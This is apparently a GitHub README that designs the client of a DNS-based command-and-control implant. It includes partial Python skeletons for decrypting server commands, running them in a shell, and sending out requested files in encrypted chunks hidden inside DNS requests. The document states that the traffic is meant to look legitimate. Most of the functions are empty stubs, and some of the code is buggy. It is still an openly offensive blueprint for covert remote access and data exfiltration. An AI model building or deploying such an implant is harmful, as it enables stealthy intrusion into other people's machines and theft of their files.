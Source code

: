 ## Client Program Design

The client program is responsible for reading and executing commands sent by the C&C server. To ensure this behavior, the following features will be implemented.



### Features

1. **Command Decryption & Execution**

   * Initially, the server would send an **encrypted** command that can come in two flavors. 

     * One flavor is just simply a regular **shell command** (e.g. `ls ~`).  
     * The other flavor uses special syntax and is sent by the server for simple file retrieval (e.g. `get: <file-path>`.

   * In order for the client to execute the command, it first needs to decrypt it.

     * After the command is **decrypted**, the client can execute it according to its command flavor.

   * These tasks will be handled in `command.py`.

     ```python
     #--- client/command.py ---#
     
     class Command:
         """ A class for handling the command sent by the C&C server. """
     
         def __init__(self, encrypted_command):
             self.cmd = encrypted_command
         
         def decrypt(self):
             """ Decrypts the encrypted command into a shell command. """
             pass
         
         def execute(self):
             decrypted = self.decrypt(self.cmd)
             
             # if decrypted starts with "get:"
                 # send data from <path>
             # else
                 # execute command in shell environment
     ```

2. **Server Pinging**

   * The server cannot initiate a connection with the client because the communication between the client and server should look as legitimate as possible. 

   * Instead, the client will periodically **ping** the server (send it a DNS request) over a configurable interval.

   * To implement this behavior, we can use the **twisted** library to call a function over an interval. 

     * An example is shown below in `client.py` which will be the entry point for our client program.

     ```python
     #--- client/client.py ---#
     
     # library imports
     from twisted.internet import reactor, task
     
     # internal imports
     from constants import PING_INTERVAL
     from request import Request
     from command import Command
     from request_type import RequestType
     
     def schedule_ping():
         """ Sends a ping request to the server in an interval. """
         def ping():
             request = Request(RequestType.PING)
             request.send()
     
         ping_task = task.LoopingCall(ping)
         ping_task.start(PING_INTERVAL)
     
         reactor.run()
     ```

3. **Command Execution & Data Transmission**

   * The client can send three types of DNS requests to the server, **ping**, **data**, and **receipt**.

     ```python
     from enum import Enum
     
     class RequestType(Enum):
         """ Enum that represents the type of request that is sent. """
     
         PING = 0, # sent periodically to check if the server has a command
         DATA = 1, # sent when a file retrieval command is issued for transmission of data
         RECEIPT = 2 # a receipt of the success (or failure) of the execution of a shell command
     ```

   * The client would first send a **ping** request to the server for a response. If the response contains a command, the client executes it and sends the result of that execution back to the server.

   * The result will be dependent on the type of command issued. 

     * The **shell** command would just be executed in a shell environment and the result would just be the status code of that command. This result would be sent as a **receipt** request in order to let the server know whether the command succeeded or failed.
     * The **file retrieval** command would open the file specified, read and encrypt the maximum number of bytes that can fit inside a DNS request, and send it to the server as a **data** request.
       - This process would continue until the contents of the entire file has been sent to the server.

   * These DNS requests will be constructed in `request.py`.

     ```python
     #--- client/request.py ---#
     
     # from scapy.all import DNS, DNSQR
     
     # internal imports
     from constants import REQUEST_TYPE_ERR
     from request_type import RequestType
     
     class Request:
         """ A class for the DNS request that is sent to the C&C server holding information / receipt. """
     
         def __init__(self, request_type):
             # type = (PING, DATA, RECEIPT)
             self.type = request_type
         
         def send(self):
             """ Main function that sends a request based on its type. """
             if self.request.type == RequestType.PING: _send_ping(self)
             elif self.request.type == RequestType.DATA: _send_data(self)
             elif self.request.type == RequestType.RECEIPT: _send_receipt(self)
             else: raise Exception(REQUEST_TYPE_ERR)
         
         def _send_ping(self):
             """ Helper function to send a ping request. """
             pass
         
         def _send_data(self):
             """ Helper function to send a data request. """
             pass
         
         def _send_receipt(self):
             """ Helper function to send a receipt request. """
             pass
     
     ```

     

### Dependencies

* Python (v3.7+)
* Twisted (v18.9.0)
* Scapy (v2.4.2)



